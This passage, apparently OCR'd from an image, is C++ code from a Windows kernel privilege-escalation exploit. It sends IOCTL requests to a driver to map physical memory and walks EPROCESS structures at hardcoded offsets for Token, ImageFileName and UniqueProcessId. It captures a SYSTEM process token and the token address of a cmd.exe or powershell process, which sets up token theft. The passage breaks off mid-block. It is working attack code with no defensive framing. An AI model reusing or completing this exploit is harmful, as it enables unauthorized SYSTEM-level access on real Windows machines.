 ```cpp
        INT64 start_address = proc_data.proc_address[i];

        INPUT_BUFFER input_buff = { start_address, num_of_bytes, padding };

        DWORD bytes_returned = 0;

        if (DeviceIoControl(
            device_handle,
            IOCTL,
            &input_buff,
            sizeof(input_buff),
            output_buff,
            sizeof(output_buff),
            &bytes_returned,
            NULL))
        {
            // Pointer to the beginning of our process space with the mapped
            // 0x1000 bytes of physmem
            INT64 mapped_address = *(PINT64)output_buff;

            // mapped_address is mapping from our page entry where, on that
            // page, exists a "Proc" tag. Therefore, we need both the header
            // size and the offset from the page entry to the "Proc" tag so
            // we can calculate the static offsets/values of the EPROCESS
            // memebers ImageFileName, Token, UniqueProcessId...
            INT64 imagename_address = mapped_address +
                proc_data.header_size[i] + proc_data.page_entry_offset[i]
                + 0x450; //ImageFileName
            INT64 imagename_value = *(PINT64)imagename_address;

            INT64 proc_token_addr = mapped_address +
                proc_data.header_size[i] + proc_data.page_entry_offset[i]
                + 0x360; //Token
            INT64 proc_token = *(PINT64)proc_token_addr;

            INT64 pid_addr = mapped_address +
                proc_data.header_size[i] + proc_data.page_entry_offset[i]
                + 0x2e8; //UniqueProcessId
            INT64 pid_value = *(PINT64)pid_addr;

            // See if the ImageFileName 64 bit hex value is in our vector of
            // common SYSTEM processes
            int sys_result = count(SYSTEM_procs.begin(), SYSTEM_procs.end(),
                imagename_value);
            if (sys_result != 0 and SYSTEM_found == false)
            {
                SYSTEM_token = proc_token;
                cout << "[>] SYSTEM process found!\n";
                cout << "    - ImageFileName value: "
                    << (char*)imagename_address << "\n";
                cout << "    - Token value: " << hex << proc_token << "\n";
                cout << "    - Token address: " << hex << proc_token_addr
                    << "\n";
                cout << "    - UniqueProcessId: " << dec << pid_value << "\n\n";
                SYSTEM_found = true;
            }
            else if (imagename_value == 0x6568737265776f70 or
                imagename_value == 0x6578652e646d63)  // powershell or cmd
            {
                cmd_token_addr = proc_token_addr;
                cout << "[>] cmd.exe process found!\n";
                cout << "    - ImageFileName value: "
                    << (char*)imagename_address << "\n";
```